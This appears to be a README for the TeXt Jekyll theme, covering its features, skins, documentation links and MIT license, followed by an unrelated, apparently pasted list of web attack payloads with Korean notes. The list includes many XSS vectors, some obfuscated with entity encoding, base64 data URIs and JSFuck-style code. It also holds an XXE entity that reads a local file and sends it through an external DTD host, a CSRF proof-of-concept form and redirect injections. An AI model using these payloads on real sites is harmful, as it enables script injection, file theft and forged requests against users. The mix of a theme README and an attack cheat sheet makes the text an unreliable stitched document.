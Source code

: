 # [TeXt Theme](https://github.com/kitian616/jekyll-TeXt-theme)

[![Gem Version](https://img.shields.io/gem/v/jekyll-text-theme.svg)](https://github.com/kitian616/jekyll-TeXt-theme/releases)
[![license](https://img.shields.io/github/license/kitian616/jekyll-TeXt-theme.svg)](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/LICENSE)
[![Travis](https://img.shields.io/travis/kitian616/jekyll-TeXt-theme.svg)](https://travis-ci.org/kitian616/jekyll-TeXt-theme)

![TeXt Theme](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/TeXt-home.jpg)

![TeXt Theme Details](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/TeXt-layouts.png)

TeXt is a super customizable Jekyll theme for personal site, team site, blog, project, documentation, etc. Similar to iOS 11 style, it has large and prominent titles, round buttons and cards.

[Change Log](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/CHANGELOG.md) | [中文文档](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/README-zh.md)

## Features

- Responsive
- Semantic HTML
- Skins
- Highlight Theme
- Multi-language support
- Search
- Table of contents
- Authors (Email, Facebook, Twitter, Linkedin, Weibo, Zhihu, etc)
- Additional styles (alert, tag, image, icon, button, grid, etc)
- Extensions (audios, videos, slides)
- Markdown enhancements ([MathJax](https://www.mathjax.org/), [mermaid](https://mermaidjs.github.io/), [chartjs](http://www.chartjs.org/))
- Sharing ([AddToAny](https://www.addtoany.com/))
- Comments ([Disqus](https://disqus.com/))
- Pageview ([LeanCloud](https://leancloud.cn/))
- Analytics (Google Analytics)
- RSS ([jekyll-feed](https://github.com/jekyll/jekyll-feed))

## Skins

TeXt has 6 built-in skins, you can also set up your own skin.

| `default` | `dark` | `forest` |
| --- |  --- | --- |
| ![Default](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_default.jpg) | ![Dark](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_dark.jpg) | ![Forest](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_forest.jpg) |

| `ocean` | `chocolate` | `orange` |
| --- |  --- | --- |
| ![Ocean](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_ocean.jpg) | ![Chocolate](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_chocolate.jpg) | ![Orange](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_orange.jpg) |

### Highlight Theme

TeXt use [Tomorrow](https://github.com/chriskempson/tomorrow-theme) as the highlight theme.

| `tomorrow` | `tomorrow-night` | `tomorrow-night-eighties` | `tomorrow-night-blue` | `tomorrow-night-bright` |
| --- |  --- | --- | --- |  --- |
| ![Tomorrow](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow.png) | ![Tomorrow Night](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night.png) | ![Tomorrow Night Eighties](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night-eighties.png) | ![Tomorrow Night Blue](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night-blue.png) | ![Tomorrow Night Bright](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night-bright.png) |

## Documentation

### Start

- [Quick Start](https://tianqi.name/jekyll-TeXt-theme/docs/en/quick-start)
- [Update form 1.x to 2.x](https://tianqi.name/jekyll-TeXt-theme/docs/en/update-form-1-to-2)

### Customization

- [Configuration](https://tianqi.name/jekyll-TeXt-theme/docs/en/configuration)
- [Navigation](https://tianqi.name/jekyll-TeXt-theme/docs/en/navigation)
- [Layouts](https://tianqi.name/jekyll-TeXt-theme/docs/en/layouts)
- [Logo and Favicon](https://tianqi.name/jekyll-TeXt-theme/docs/en/logo-and-favicon)
- [Authors](https://tianqi.name/jekyll-TeXt-theme/docs/en/authors)

### Content

- [Writing Posts](https://tianqi.name/jekyll-TeXt-theme/docs/en/writing-posts)
- [Additional styles](https://tianqi.name/jekyll-TeXt-theme/docs/en/additional-styles)
- [Extensions](https://tianqi.name/jekyll-TeXt-theme/docs/en/extensions)
- [Markdown Enhancements](https://tianqi.name/jekyll-TeXt-theme/docs/en/markdown-enhancements)

## Demo Pages

| Name | Description |
| --- | --- |
| [Home](https://tianqi.name/jekyll-TeXt-theme/test/) | Home page |
| [Archive](https://tianqi.name/jekyll-TeXt-theme/archive.html) | Archive page |
| [Layout Examples](https://tianqi.name/jekyll-TeXt-theme/samples.html) | Examples for different layouts |

## License

TeXt Theme is [MIT licensed](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/LICENSE).

<video src onratechange="alert(1)">



<A HREF='&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;'>XSS</A>



<input type="hidden" name="xsstest" value="hwul" accesskey="X" onclick="alert(45)" a=" ">



<img src=asdf onerror=confirm(1)>



<body onscroll=alert(1)>



<img src=1 onmouseenter=alert(1)>



<video src="http://x.x.x.x/test.mp4" onprogress="alert(1)"></video>



<video src="http://x.x.x.x/test.mp4" onprogress="confirm(1)"></video>



<video src="http://x.x.x.x/test.mp4" onprogress="prompt(1)"></video>



<video onsuspend="alert(1)" src="http://x.x.x.x/test.mp4"></video>



<video onsuspend=document.location.href="http://google.com" src="http://x.x.x.x/test.mp4"></video>



<input/autofocus/ONFOCUS=alert(2)>




%22+onmouseover="document.location='http://google.com'"+a



%22onmouseover="var a='<';var b='script>';var c='/script>';var d='aler';var e='t(1)';document.write(a%2Bb%2Bd%2Be%2Ba%2Bc);"+a



<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)"> 



<input type="search" onsearch=prompt(1) autofocus> 



<object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==></object>



<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>123</a>



data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7



<embed src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>



image/svg+xml

<?xml version="1.0" encoding="ISO-8859-1"?><html:html xmlns:html='http://www.w3.org/1999/xhtml'><html:script>alert(1);</html:script></html:html>



<div style="z-index:999999;position:fixed;top:0;left:0">

<form action='http://x.x.x.x.com' method="get" id="csrf_poc">

<input type="submit" value="Replay!" style="height:9999px; width:9999px; background-color:transparent;" />

</form>

</div>



<svgonload=confirm(99);>



<object data="javascript:alert(1)"></object>



<body onscroll=document.location.href="http://google.com"> 



<video src=http://x.x.x.x/test.mp4 onprogress=document.location.href="http://google.com"></video>



"><marquee/onstart=confirm(1)>



<img src="csrf 코드">



모바일 터치

<html ontouchstart=alert(1)> 



<html ontouchend=alert(1)> 



<html ontouchmove=alert(1)> 



<html ontouchcancel=alert(1)>



<body onorientationchange=alert(1)>



<img src=1 onerror=$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"(\\\"\\"+$.__$+$.__$+$.___+$.$$$_+(![]+"")[$._$_]+(![]+"")[$._$_]+$._$+"\\\")"+"\"")())();>



<form method="POST" action="http://localhost:8000/users/1" accept-charset="UTF-8">

  <input name="_method" type="hidden" value="PUT">

  <input type="submit">

</form>



<--`<img/src=` onerror=alert(1)> --!>

<iframe/src \/\/onload = prompt(1)



<!DOCTYPE oioi [

<!ENTITY % file SYSTEM "file:///etc/pwd1">

<!ENTITY % dtd SYSTEM "http://x.x.x.x/ext.dtd">

%dtd;

%send;]>



<iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;" />



<iframe srcdoc="<img src=1 onerror=alert(2)>" />



<img srcset=1 onerror="alert(1)">



<script src="data:text/plain,alert('oioi')"></script>



<script src="data:,alert('oioi')"></script>



<META HTTP-EQUIV="refresh" CONTENT="0;url=http://google.com">



<svg

onload=alert(1)>



onerror=alert;throw document.location='http://poioi.tistory.com'



eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
